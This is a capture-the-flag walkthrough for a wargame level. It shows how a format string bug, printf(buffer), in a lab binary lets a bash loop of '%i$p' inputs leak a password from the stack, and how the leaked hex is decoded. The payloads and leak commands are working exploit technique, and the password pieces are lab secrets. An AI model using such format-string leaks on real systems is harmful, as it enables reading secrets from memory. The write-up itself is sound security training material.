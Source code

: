 
# 🔐 OverRide – Level02 Walkthrough

## 🧠 Goal

Extract the password for the next level by exploiting a **format string vulnerability**.

---

## 1️⃣ Understanding the Program

```bash
./level02
```

Outputs:

```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```

After entering any username and password, you get:

```
<your_user> does not have access!
```

---

## 2️⃣ Disassembling the Program

Attempting to analyze the binary using GDB:

```bash
gdb ./level02
```

However, upon `run`, the program fails with:

```
ERROR: failed to open password file
```

> 🔴 **Important**: The binary detects it's running in a debugger and refuses to open the password file.

This made direct memory inspection impossible (e.g., using `x/s $rbp - offset`).

---

## 3️⃣ Static Analysis

Using `disas main` to disassemble the binary revealed:

- It reads the password from a file using `fopen()`.
- The password is read with `fread()` into a stack buffer.
- Later, the user input is compared to this buffer via `strncmp()`.

So the password **is loaded into memory**, but we can’t easily read it with GDB.

---

## 4️⃣ Discovering the Format String Vulnerability

The program uses:

```c
printf(buffer);
```

Instead of:

```c
printf("%s", buffer);
```

Classic **format string vulnerability** — we can read arbitrary memory.

Test:

```bash
echo "%x %x %x %x" | ./level02
```

This outputs raw hex values from the stack. Vulnerability confirmed.

---

## 5️⃣ Brute-force Stack Dumping

We wrote a loop to leak multiple stack positions:

```bash
for ((i = 1; i < 50; i++)); do
    echo "$i - %$i\$p" | ./level02 | grep does
done
```

Example result:

```
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
```

Each hex string looks like an ASCII password chunk in **little-endian**.

---

## 6️⃣ Rebuilding the Password

We decoded each leaked value with the following command:

```bash
echo 756e505234376848 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 45414a3561733951 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 377a7143574e6758 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 354a35686e475873 | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
echo 48336750664b394d | sed 's/../& /g' | tac -rs ' ' | tr -d '\n ' | xxd -r -p; echo
```

> These commands:
> - Split the hex string into byte pairs
> - Reverse byte order (little endian → big endian)
> - Convert hex to ASCII using `xxd`

---

## 7️⃣ Final Output

You’ll get lines like:

```
uNR4h7GH
EAJ5as9Q
7zqCWNgX
5J5hnGXs
H3gPfK9M
```

Combine all lines to get the full password.

---

## 8️⃣ Login with the Real Password

```bash
./level02
--[ Username: edouard
--[ Password: <paste your decoded password>
```

Success!

---

## 🧩 Summary Table

| Step | Description |
|------|-------------|
| 1.   | Binary reads password from file into memory |
| 2.   | GDB blocked us — program refuses to open file in debugger |
| 3.   | Disassembled and found `printf(buffer)` vulnerability |
| 4.   | Brute-forced `%i$p` to leak password from stack |
| 5.   | Reversed little-endian hex → ASCII |
| 6.   | Logged in with the real password |


